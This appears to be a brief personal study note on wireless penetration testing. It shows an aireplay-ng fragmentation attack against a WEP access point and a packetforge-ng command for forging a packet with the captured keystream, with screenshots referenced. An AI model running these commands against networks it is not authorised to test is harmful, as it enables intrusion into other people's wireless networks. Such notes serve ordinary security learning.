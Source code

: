 # Fragmentation Attack

**Which attack number generator that used to generate random number to encryption**

```bash
aireplay-ng -5 -b BSSID_AP -h wlan_Bssid wlan0

# -5 -> refer to fragmentation attack
```

> need one packet to make this attack-b

![image.png](<../../../.gitbook/assets/image (2).png>)

***

### Packet injection (Forging)

```bash
packetforge-ng -0 -a D8:29:18:0A:08:91 -h 7c:3d:09:00:07:47 -k 255.255.255.255 -l 255.255.255.255 fileFromFregmentAttack -w any_name
```

<figure><img src="../../../.gitbook/assets/image 1 (1).png" alt=""><figcaption></figcaption></figure>
